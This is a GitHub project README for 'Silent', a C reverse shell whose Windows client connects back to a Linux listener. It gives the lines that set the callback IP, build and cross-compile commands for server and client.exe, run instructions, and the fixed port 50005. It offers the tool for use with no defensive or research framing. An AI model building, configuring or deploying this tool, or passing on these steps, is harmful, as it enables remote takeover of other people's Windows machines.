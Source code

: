 # Silent is a simple TCP reverse shell written in C.
![Alt Text](https://media.giphy.com/media/Kmr5zGPaFDWYiVBVIB/giphy.gif)
### In both files IP need to be changed to yours.

### For example:

### server.c

###### server_address.sin_addr.s_addr = inet_addr("192.168.0.100");

### client.c

###### ServIP = "192.168.0.100";

## Installation
```bash
git clone http://github.com/R4v3nG/silent.git
sudo apt-get install gcc-mingw-w64-i686
cd silent/server
gcc -o server server.c
cd ../client
i686-w64-mingw32-gcc -o client.exe client.c -lwsock32 -lwininet
```

## Usage
# Linux
```bash
./server
```
# Windows
```bash
client.exe
```
# Silent uses 50005 port
## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

## License
[MIT](https://choosealicense.com/licenses/mit/)

<a href="https://www.buymeacoffee.com/R4v3nG" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>
